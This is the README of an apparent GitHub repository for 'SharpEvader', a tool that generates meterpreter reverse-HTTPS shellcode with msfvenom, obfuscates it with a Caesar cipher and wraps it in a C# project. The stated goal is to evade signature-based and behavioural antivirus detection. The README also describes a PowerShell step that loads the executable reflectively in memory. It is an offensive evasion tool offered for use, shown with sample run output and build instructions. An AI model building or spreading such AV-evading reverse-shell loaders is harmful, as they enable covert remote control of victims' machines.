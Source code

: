 # 🤔 SharpEvader
#### This is a python script which automatically generates `windows/x64/meterpreter/reverse_https` shellcode and caeser encodes it and slaps some Behavioural detection in a c# Project for you to build and run


# ✨ Features
- Automatically generate's `windows/x64/meterpreter/reverse_https` shellcode by borrowing `msfvenom`(What more do you expect, Write an `msfvenom` clone from scratch ??) from your linux host.
- Applies some magic sauce inorder to bypass the Signature Based detection.(The magic sauce is absolutely not Caeser Cipher).
- Generate's a C# Project with the encoded shellcode and some more spells to bypass Behavioural Based Detection.
- Quick, Order your Reverse Shell now Available at an easy installment of $999 each :)
- Powershell Script to generate a reflection ps1 script with the C# executable embedded inside it[Tested as of 1st July 2022].
- Does not use Java !!!
- Owner's or Contributor's of this repo does not take responsibiltes of any damages caused using it or with it, any illegal usage is highly discouraged.


# ⚙️ Requirements
- Python3.7+
- msfvenom or Metasploit Framework
- Powershell on Linux[Optional]


# 🤸 Usage
## To be done on Linux

### Run Sharpevader.py to generate the C# Project
```bash
~/SharpEvader > python3 sharpevader.py
LHOST: 10.10.10.16
LPORT: 9001
[*] Using LHOST as 10.10.10.16 and LPORT as 9001
[*] Generating msfvenom shellcode...
[+] MSFVenom Shellcode generation successful
[+] Encoded shellcode with caeser cipher with +7 as Key
[*] Deleting the msf_shellcode.hex file as no one wants it anymore
[*] Baking the fresh Shellcode into a C# project for compiling
[+] Baking successfull please compile the C# Project using Microsoft Visual Studio on Windows
[+] Happy Evasion using rev_exe_01072022021313AM!!!
```

---

### The C# project directory would be placed inside the output directory with name rev_exe_[timestamp]
```bash
~/SharpEvader/output/rev_exe_01072022021313AM > ls -l
total 28
-rwxr-xr-x 1 root root  189 Jul  1 02:13 App.config
drwxr-xr-x 2 root root 4096 Jul  1 02:13 bin
-rwxr-xr-x 1 root root 4942 Jul  1 02:13 Program.cs
drwxr-xr-x 2 root root 4096 Jul  1 02:13 Properties
-rwxr-xr-x 1 root root 3189 Jul  1 02:13 rev.csproj
-rwxr-xr-x 1 root root  892 Jul  1 02:13 rev.sln
```

## To be done on Windows
- Transfer the rev_exe_[timestamp] from the output directory and launch `rev.sln` using `Visual Studio`.
- Build the Project using the `Release` and `x64` build configuration.
- Voila !!! The built C# executable would be available in the `rev_exe_[timestamp]/bin/x64/Release/rev.exe`

---

## [Optional] Can be done in Windows/Linux with powershell available
- Execute the `reflection_pwsh_gen.ps1` supplying the `-File` argument as the absolute path to the `rev.exe`
- This would generate a `rev.ps1` which would be consist the C# binary embedded into a ps1 script which would be reflectively loaded in the memory.

---

```bash
~/SharpEvader > pwsh reflection_pwsh_gen.ps1 -File ~/SharpEvader/output/rev_exe_01072022021313AM/bin/x64/Release/rev.exe
[+] Written the C# Embedded Reflection Reverse Shell into rev.ps1
```
# ‼️ Disclaimer

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.